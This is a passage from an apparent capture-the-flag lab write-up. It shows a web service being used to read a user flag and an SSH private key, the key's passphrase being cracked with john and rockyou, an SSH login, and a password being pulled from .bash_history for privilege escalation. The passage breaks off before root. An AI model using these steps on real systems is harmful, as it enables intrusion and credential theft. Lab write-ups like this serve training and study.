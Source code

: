 - Now just keep digging until you find a flag.

  ```
  http://127.0.0.1:1337/home/saad/user.txt
  9a1ce90a7653d74ab98630b47b8b4a84
  ```

- Here we can also read `saad` RSA key in the source code.

  ```
  http://127.0.0.1:1337/home/saad/.ssh/id_rsa 

  -----BEGIN OPENSSH PRIVATE KEY-----
  [SNIP!]
  -----END OPENSSH PRIVATE KEY-----
  ```

- Save the key, crack it's hash in order to get a passphrase and login with SSH. After that move to root escalation.

  ```
  $ ssh2john id_rsa > saad.hash

  $ john --wordlist=/rockyou.txt saad.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
  Cost 2 (iteration count) is 16 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  sweetness        (id_rsa)     
  1g 0:00:00:46 DONE (2025-06-08 18:44) 0.02137g/s 20.52p/s 20.52c/s 20.52C/s whitney..sandy
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.

  $ chmod 400 id_rsa

  $ ssh -i id_rsa saad@10.10.26.41                              
  Enter passphrase for key 'id_rsa': 
  
  Last login: Mon Nov  6 07:56:40 2023 from 192.168.8.102
  saad@ip-10-10-26-41:~$ whoami
  saad
  saad@ip-10-10-26-41:~$ id
  uid=1000(saad) gid=1000(saad) groups=1000(saad)
  ```

---

## 👑 Root Privilege Escalation

- Now read the `.bash_history` so we can get a password in order to use `sudo -l`.

  ```
  saad@ip-10-10-26-41:~$ cat .bash_history 
  whoami
  pwd
  ls -al
  ls
  cd ..
  sudo -l
  echo "saad:MyStrongestPasswordYet$4291" > creds.txt
  rm creds.txt
  sudo -l
  whomai
  whoami
  pwd
  ls -al
  ```